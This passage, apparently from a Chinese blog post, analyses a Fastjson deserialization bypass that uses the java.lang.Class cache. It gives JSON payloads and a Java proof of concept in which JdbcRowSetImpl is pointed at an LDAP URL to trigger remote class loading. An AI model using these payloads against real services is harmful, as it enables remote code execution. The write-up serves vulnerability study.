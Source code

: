 通过config找到对应的反序列化器，当类为`Class.class`的时候就会调用`MiscCodec`

![image-20230410175526180](https://raw.githubusercontent.com/todis21/image/main/202304101835579.png)

回到这里

```java
if (clazz == Class.class) {
    return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
}
```

`strVal`是传进来的字符串，当loadClass执行后，会把类名加载，然后放到缓存里



整个流程中，最主要的漏洞在于，当查找缓存的时候，查找到了就会返回这个类

![image-20230410181347378](https://raw.githubusercontent.com/todis21/image/main/202304101835253.png)



第一步先让它进行正常的加载，把恶意类放到缓存里

```java
{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}
```

第二不就是加载恶意类，通过从缓存里查找来绕过类型检查java

```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:8085/XzfLalyY","autoCommit":true}
```

最后的POC

```java
package org.example;
import com.alibaba.fastjson.JSON;
public class demo1 {
    public static void main(String[] args) {
        String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:8085/XzfLalyY\",\"autoCommit\":true}}";
        JSON.parse(s);
    }
}
```

![image-20230410182733010](https://raw.githubusercontent.com/todis21/image/main/202304101835796.png)

